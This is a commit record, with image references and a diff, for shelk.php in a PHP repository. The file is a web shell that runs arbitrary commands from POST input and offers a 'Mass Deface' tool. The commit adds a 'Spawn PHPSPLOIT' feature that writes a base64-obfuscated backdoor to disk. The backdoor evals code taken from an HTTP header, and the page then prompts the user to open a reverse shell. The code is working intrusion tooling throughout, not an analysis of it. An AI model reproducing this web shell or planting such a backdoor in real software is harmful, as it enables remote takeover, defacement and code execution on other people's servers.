

Before and after one commit to nastar-id/kegabutan, a PHP site: page /shelk.php in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (319-959 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update shelk.php

```diff
--- a/shelk.php
+++ b/shelk.php
@@ -9,6 +9,14 @@ $gcc = (@shell_exec('gcc --version')) ? "<font color='lime'>ON</font>" : "<font
 $pkexec = (@shell_exec('pkexec --version')) ? "<font color='lime'>ON</font>" : "<font color='red'>OFF</font>";
 $disfuncs = @ini_get("disable_functions");
 $showdisbfuncs = (!empty($disfuncs)) ? "<font color='red'>$disfuncs</font>" : "<font color='lime'>NONE</font>";
+
+function doFile($name, $content, $type) {
+    $open = fopen($name, $type);
+    $write = fwrite($open, $content);
+    fclose($open);
+
+    return ($write !== false) ? true : false;
+}
 ?>
 
 <!DOCTYPE html>
@@ -166,6 +174,16 @@ $showdisbfuncs = (!empty($disfuncs)) ? "<font color='red'>$disfuncs</font>" : "<
         if (isset($_POST["exec"])) {
             echo "<textarea class='terminal' disabled>" . @shell_exec($_POST["cmd"]) . "</textarea>";
         }
+    } elseif (isset($_GET["phpsploit"])) {
+        $content = "PD9waHAgQGV2YWwoJF9TRVJWRVJbJ0hUVFBfUEhQU1BMMDFUJ10pOyA/Pg==";
+        $create = doFile("phpsploit.php", base64_decode($content), "w");
+
+        if ($create) {
+            echo "<a href='phpsploit.php'>phpsploit.php</a> has been spawned!<br>";
+            echo "You can now try to reverse shell";
+        } else {
+            echo "phpsploit.php failed to spawned!";
+        }
     }
     ?>
 
@@ -174,6 +192,7 @@ $showdisbfuncs = (!empty($disfuncs)) ? "<font color='red'>$disfuncs</font>" : "<
         <a href="?cmd">Terminal</a>
         <a href="?network">Network</a>
         <a href="?mass">Mass Deface</a>
+        <a href="?phpsploit">Spawn PHPSPLOIT</a>
     </div>
 </body>
 
```
